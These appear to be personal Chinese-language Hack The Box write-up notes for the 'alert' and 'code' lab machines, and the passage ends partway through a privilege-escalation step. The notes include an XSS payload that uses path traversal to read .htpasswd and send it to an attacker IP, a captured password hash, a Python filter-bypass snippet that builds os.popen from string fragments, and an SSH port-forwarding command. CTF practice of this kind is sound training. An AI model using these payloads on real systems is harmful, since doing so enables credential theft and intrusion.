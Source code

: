 ```


```
发现`md`文件写的东西都会在这里显现，典型的XSS漏洞.
突然想起来服务是Apache，那么就有`.htpasswd`用来存放密码，那么我们的思路就是去外带这个文件，去得到账号的密码，伟大的grok3会给我payload的
本地先开python的http服务(ccb的那个五分钟刷新一次不应该关的啊啊啊)

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```

连接输入到`Contact Us`，本地接收到`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` ，后面爆破就行了

### 端口转发
假设ssh进入一个靶机，`ps`发现还有端口在运行，但是`nmap`并没有发现，就可以尝试把端口转发出去，例如
`ssh -L 8080:127.0.0.1:8080 albert@alert.htb`，一般漏洞点在这个web里面

### code的模拟输出

```
modules = globals().values()
global _module
for name, module in sys.modules.items():
    if name == ('o'+'s'):
        _module = module
        break
_method = getattr(_module, 'po' + 'pen')
file_obj = _method(' ')
_method = getattr(file_obj, 're' + 'ad')
output = _method()
print(output)
```
其实本质是
```
import os
output = os.popen(' ').read()
print(output)
```
在题目禁用的乱七八糟的情况下也是一个好方法，可以直接去读flag，爽啦

### code的root.txt
```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
martin@code:~$ ls -la /usr/bin/backy.sh
-rwxr-xr-x 1 root root 926 Sep 16  2024 /usr/bin/backy.sh
martin@code:~$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
```